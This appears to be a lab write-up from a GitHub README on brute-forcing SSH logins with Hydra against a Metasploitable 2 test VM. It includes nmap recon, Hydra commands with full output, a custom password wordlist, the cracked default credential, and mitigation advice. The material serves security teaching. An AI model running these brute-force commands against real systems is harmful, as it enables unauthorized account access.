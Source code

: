 # Brute Force SSH Login Using Hydra

## Objective

Simulate a brute-force attack against an SSH service using Hydra to test password strength and understand the risks of weak or default credentials.

## Target Information

- **Target Machine:** Metasploitable 2
- **IP Address:** 192.168.56.102
- **Service:** SSH (Port 22)
- **Known User:** `msfadmin`

## Tools Used

- Kali Linux
- Hydra (pre-installed in Kali)
- RockYou password list: `/usr/share/wordlists/rockyou.txt`
- Nmap (for recon)
- Custom wordlist: `quicklist.txt`

## Lab 
### STEP 1

Ensure Metasploitable 2 is powered on and reachable from Kali. Confirm SSH is enabled on the target:

```bash
nmap -sS -sV -O 192.168.56.102
nmap -p 22 192.168.56.102
```
![image](https://github.com/user-attachments/assets/5f925245-1d15-41b4-b92c-2439563e5ed1)
Confirm that SSH is running and reachable (I did a little extra)

### STEP 2 

Enable SSH client compatibility in Kali (After SSH atttept failed)

Failed SSH attempt
```bash
──(kali㉿kali)-[/usr/share/wordlists]
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt.gz  ssh://192.168.56.102

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:11:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[ERROR] could not connect to ssh://192.168.56.102:22 - kex error : no match for method server host key algo: server [ssh-rsa,ssh-dss], client [ssh-ed25519,ecdsa-sha2-nistp521,ecdsa-sha2-nistp384,ecdsa-sha2-nistp256,sk-ssh-ed25519@openssh.com,sk-ecdsa-sha2-nistp256@openssh.com,rsa-sha2-512,rsa-sha2-256]
``` 
Enable SSH Client
```bash
sudo kali-tweaks
```
Go to Hardening
![Screenshot 2025-07-01 134802](https://github.com/user-attachments/assets/63042173-8d77-438f-aa07-a7d134811899)


Toggle SSH Client
![Screenshot 2025-07-01 134826](https://github.com/user-attachments/assets/6494ba13-6efb-436c-8727-83577d01b8e5)
![Screenshot 2025-07-01 134815](https://github.com/user-attachments/assets/32e5b084-6d0a-4c21-b3d1-084391714d56)

This allows Hydra to connect to legacy SSH servers like Metasploitable 2

### STEP 3
Attempting RockYou (Too large)

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.gz ssh://192.168.56.102
```
Failed (Cancelled) due to large size

```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt.gz  ssh://192.168.56.102

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:34:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[STATUS] 216.00 tries/min, 216 tries in 00:01h, 14344191 to do in 1106:49h, 8 active
 [STATUS] 208.00 tries/min, 624 tries in 00:03h, 14343783 to do in 1149:21h, 8 active
```
Realized I needed to uncompress file

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

### STEP 4

Create a faster wordlist

```bash
echo -e "msfadmin\nadmin\npassword\n123456\nletmein\nkali" > quicklist.txt
```

### STEP 5
Run Hydra with optimization flags (Run Hydra with decompressed RockYou)

```bash
hydra -l msfadmin -P quicklist.txt ssh://192.168.56.102 -t 4 -V -f
```
Result

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l msfadmin -P quicklist.txt ssh://192.168.56.102 -t 4 -V -f

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:39:05
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 6 login tries (l:1/p:6), ~2 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "msfadmin" - 1 of 6 [child 0] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "admin" - 2 of 6 [child 1] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "password" - 3 of 6 [child 2] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "123456" - 4 of 6 [child 3] (0/0)
[22][ssh] host: 192.168.56.102   login: msfadmin   password: msfadmin
[STATUS] attack finished for 192.168.56.102 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-01 13:39:15
```
Success!
Run with uncompressed RockYou

```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102 -t 6   
```

Result (still too long)
```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102 -t 6       

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 14:04:24
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
-I
[DATA] max 6 tasks per 1 server, overall 6 tasks, 14344399 login tries (l:1/p:14344399), ~2390734 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[STATUS] 162.00 tries/min, 162 tries in 00:01h, 14344237 to do in 1475:45h, 6 active
```

## Analysis
- Brute-forcing with Hydra is effective when credentials are weak
- Custom wordlists reduce time, increase efficiency in lab settings
- rockyou.txt is too large for quick testing and isn’t practical here
- The target accepted a known default credential (msfadmin:msfadmin)

## Mititgation Recommedations
- Enforce strong passwords
- Disable default accounts or rename them
- Limit SSH access (IP whitelisting, firewall)
- Use tools like Fail2Ban to detect and block repeated login attempts
- Consider disabling password-based login in favor of key-based auth
